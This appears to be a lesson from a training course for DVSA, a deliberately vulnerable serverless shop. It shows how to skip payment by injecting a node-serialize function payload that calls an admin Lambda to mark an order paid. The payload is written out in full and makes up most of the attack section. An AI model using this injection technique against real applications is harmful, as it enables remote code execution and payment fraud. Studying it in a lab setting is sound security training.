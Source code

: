 # LESSON #5: Broken Access Control

The DVSA applicaiton has some admin functions. Although these functions are not available through the standard API calls, the function that receives the API calls has permissions to invoke any function. Since the function is vulnerable to [code injection](../LESSONS/LESSON_01.md) is it possible to invoke admin function using the standard API calls.

This means that by invoking the right funciton at the right time, we can skip the payment. But, first, we start with the normal flow:

- `{"action": "new", "cart-id": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx", "items": { "<item-id>":<qty>, "<item-id>":<qty>, ... }}`

- `{"action": "shipping", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"address":"<address>", "email":"<email>", "name":"<name>"}}`

- `{"action": "billing", "order-id": "yyyyyyyy-yyyy-yyyy-yyyy-yyyyyyyyyyyy", "data": {"ccn":"4242424242424242", "exp":"11/22", "cvv":"123 }}`

Now that we have an order that is missing only the payment, let's exploit.

To admin function receives an order Id and the parameters to update, so we can send something like that:

```
{
  "body": {
    "action": "update",
    "order-id": "cc241d5c-f665-48db-8e55-4391f62465ba",
    "item": {
      "userId": "12312312-1233-1233-1233-123123123123",
      "token": "aSD32d2ASd2",
      "ts": "1545594489",
      "itemList": {
        "20": 2
      },
      "address": {
        "name": "john doe",
        "email": "secret@email.com",
        "address": "po box 31337"
      },
      "total": 25,
      "status": 120
    }
  }
}
```

Now, we have to pass it as part of the exploit itself:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify(' + new_order + ');var a=require(\\"aws-sdk\\");var l=new a.Lambda();var x={FunctionName:\\"DVSA-ADMIN-UPDATE-ORDERS\\",InvocationType:\\"RequestResponse\\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

Which eventually looks like that:

```
{"action": "_$$ND_FUNC$$_function(){var p=JSON.stringify({\"body\": {\"action\": \"update\", \"item\": {\"status\": 120, \"userId\": \"12312312-1233-1233-1233-123123123123\", \"ts\": 1545594489, \"token\": \"aSD32d2ASd2\", \"itemList\": {\"20\": 2}, \"address\": {\"address\": \"po box 131337\", \"name\": \"john doe\", \"email\": \"secret@email.com\"}, \"total\": 25}, \"order-id\": \"cc241d5c-f665-48db-8e55-4391f62465ba\"}});var a=require(\"aws-sdk\");var l=new a.Lambda();var x={FunctionName:\"DVSA-ADMIN-UPDATE-ORDERS\",InvocationType:\"RequestResponse\",Payload:p};l.invoke(x, function(e,d){});}()"}
```

![alt stealing](https://i.imgur.com/8NXyXlQ.png)

We got an error from the API function. But the database was updated with the new data. Since we did not issue a SQS notification for the payment, the receipts will be proccessed with a daily cron-job function. However, it is already possible to see it in the orders page.

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

